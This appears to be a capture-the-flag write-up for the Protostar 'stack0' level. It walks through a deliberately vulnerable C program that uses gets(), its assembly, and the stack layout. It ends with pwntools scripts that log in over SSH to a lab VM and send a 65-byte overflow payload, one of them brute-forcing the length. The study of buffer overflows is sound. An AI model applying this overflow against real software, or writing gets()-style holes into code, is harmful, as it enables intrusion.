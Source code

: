 # STACK 0



```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}

```

The main function is pretty straightforward, it is asking for a user input which is stored in a variable called
'buffer' and check if a variable called 'modified' has change or not.

 <b>Goal</b> : overwrite the content of the variable named 'modified'

## Vulnerable function : gets()

The first thing we can notice is the usage of gets() function. If you are a bit familiar with c , gets() is a function you 
should avoid when you need user interaction in c code  because it don't have any length control on a given input.


## Deep into assembly code

Let's look the assembly code to understand how many bytes we should send in buffer to overwrite 'modified'.



```asm
0x080483f4 <main+0>:	push   ebp
0x080483f5 <main+1>:	mov    ebp,esp
0x080483f7 <main+3>:	and    esp,0xfffffff0
0x080483fa <main+6>:	sub    esp,0x60                 
0x080483fd <main+9>:	mov    DWORD PTR [esp+0x5c],0x0     <-- initialization of 'modified'
0x08048405 <main+17>:	lea    eax,[esp+0x1c]               <--  'buffer' variable starts at esp+0x1c
0x08048409 <main+21>:	mov    DWORD PTR [esp],eax         
0x0804840c <main+24>:	call   0x804830c <gets@plt>       
0x08048411 <main+29>:	mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:	test   eax,eax
0x08048417 <main+35>:	je     0x8048427 <main+51>
0x08048419 <main+37>:	mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:	call   0x804832c <puts@plt>
0x08048425 <main+49>:	jmp    0x8048433 <main+63>
0x08048427 <main+51>:	mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:	call   0x804832c <puts@plt>
0x08048433 <main+63>:	leave  
0x08048434 <main+64>:	ret 

```
We have found where in the stack 'buffer' and 'modified' are located.

Our target variable  'modified' is an integer so 4 bytes are allocated starting at esp+0x5c.

'buffer' is located at esp+0x1c. 

Since the stack grows downwards esp+0x1c is under esp+0x5c : 
```
  |  |                     |
  |  |     modified        | 
  |  |                     | 
  |  |---------------------|esp+0x5c (esp+92)
  |  |                     |
  |  |       BUFFER        |   
  |  |                     |
  |  |---------------------|esp+0x1c  (esp+28)
  |  |      ...            |
  |  |---------------------| <-- esp 
  v
```
First conclusion we can overwrite the content of the variable 'modified'.

Now let's calculate with how  many bytes we should  add in 'buffer' to overwrite 'modified' : 



```
 0x5c- 0x1c  = 64

```
The compiler allocate 64 bytes to 'buffer' and just after  we can overwrite the content of 'modified'.

We need to add at least one more byte to overwrite 'modified' and take over the control of  this variable.



Time to write the script.


# Scripting 

```python

from pwn import *


#  IP OF THE VM 192.168.160.128
# location of the binary /opt/protostar/bin/stack0



remote_ssh =  ssh(host='192.168.160.128', user='user', password='user')

re_process = remote_ssh.run(['/opt/protostar/bin/stack0'])

payload=b'A'*65 
re_process.sendline(payload)

print(re_process.recvline())

re_process.close()


```


![](win_mess.png)


Succeed  !!

bruteforce script for lazy people : 

```python
from pwn import *



#  IP OF THE VM 192.168.160.128
# location of the binary /opt/protostar/bin/stack0

r = ssh(host='192.168.160.128', user='user', password='user')

payload=b'A'
counter=1
response=''
while "you have" not in response :
    my_prog = r.run(['/opt/protostar/bin/stack0'])
    my_prog.sendline(payload)
    response = (my_prog.recvline()).decode()
    
    payload+=b'A'
    counter+=1
    my_prog.close()


print(response)
print("payload size : ", counter)

```


